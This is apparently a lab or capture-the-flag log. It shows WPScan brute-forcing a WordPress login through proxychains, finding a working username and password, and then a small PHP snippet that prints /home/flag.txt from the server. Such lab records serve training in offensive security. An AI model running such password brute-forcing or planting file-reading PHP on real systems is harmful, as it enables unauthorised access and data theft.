[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================================                                           > (2219 / 3559) 62.34%  ETA: 00:03:31
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================================                                           > (2224 / 3559) 62.48%  ETA: 00:03:30
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================================                                          > (2229 / 3559) 62.62%  ETA: 00:03:29
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================================                                          > (2234 / 3559) 62.77%  ETA: 00:03:28
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================================                                           > (2239 / 3559) 62.91%  ETA: 00:03:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================================                                          > (2244 / 3559) 63.05%  ETA: 00:03:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================================                                          > (2249 / 3559) 63.19%  ETA: 00:03:26
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================================                                          > (2254 / 3559) 63.33%  ETA: 00:03:25
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================================                                          > (2259 / 3559) 63.47%  ETA: 00:03:24
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================================                                          > (2264 / 3559) 63.61%  ETA: 00:03:24
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================================                                        > (2269 / 3559) 63.75%  ETA: 00:03:23
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================================                                          > (2274 / 3559) 63.89%  ETA: 00:03:22
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==================================                                         > (2279 / 3559) 64.03%  ETA: 00:03:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================================                                        > (2284 / 3559) 64.17%  ETA: 00:03:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================================                                        > (2289 / 3559) 64.31%  ETA: 00:03:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==================================                                         > (2294 / 3559) 64.45%  ETA: 00:03:19
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==================================                                         > (2299 / 3559) 64.59%  ETA: 00:03:18
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==================================                                         > (2304 / 3559) 64.73%  ETA: 00:03:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==================================                                         > (2309 / 3559) 64.87%  ETA: 00:03:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================================                                        > (2314 / 3559) 65.01%  ETA: 00:03:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================================                                        > (2319 / 3559) 65.15%  ETA: 00:03:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================================                                      > (2324 / 3559) 65.29%  ETA: 00:03:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================================                                        > (2329 / 3559) 65.43%  ETA: 00:03:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================================                                       > (2334 / 3559) 65.58%  ETA: 00:03:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================================                                       > (2339 / 3559) 65.72%  ETA: 00:03:12
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================================                                       > (2344 / 3559) 65.86%  ETA: 00:03:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================================                                       > (2349 / 3559) 66.00%  ETA: 00:03:10
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================================                                       > (2354 / 3559) 66.14%  ETA: 00:03:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================================                                      > (2359 / 3559) 66.28%  ETA: 00:03:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================================                                       > (2364 / 3559) 66.42%  ETA: 00:03:08
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================================                                      > (2369 / 3559) 66.56%  ETA: 00:03:07
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================================                                       > (2374 / 3559) 66.70%  ETA: 00:03:06
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================================                                      > (2379 / 3559) 66.84%  ETA: 00:03:05
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================================                                       > (2384 / 3559) 66.98%  ETA: 00:03:05
[SUCCESS] - offsec / 141414                                                                                                                                                                 
Trying offsec / dancing Time: 00:06:15 <============================================                                                                   > (2390 / 5949) 40.17%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: offsec, Password: 141414

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Mar 13 19:25:02 2023
[+] Requests Done: 2540
[+] Cached Requests: 49
[+] Data Sent: 825.492 KB
[+] Data Received: 15.486 MB
[+] Memory used: 280.785 MB
[+] Elapsed time: 00:06:37





<?php
$myfile = fopen("/home/flag.txt", "r") or die("Unable to open file!");
echo fread($myfile,filesize("/home/flag.txt"));
fclose($myfile);
?>




```